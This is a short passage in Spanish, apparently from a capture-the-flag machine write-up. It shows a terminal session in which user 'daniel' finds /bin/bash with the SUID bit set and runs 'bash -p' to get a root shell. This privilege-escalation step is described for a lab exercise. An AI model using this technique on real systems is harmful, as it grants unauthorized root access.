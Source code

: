 Podemos cambiar el permiso SUID de la bash:

![](/.gitbook/assets/hawk15.png)

Y convertirnos en root:

```bash
bash-4.4$ id
uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)
bash-4.4$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1113504 Apr  4  2018 /bin/bash
bash-4.4$ whoami
daniel
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# 

```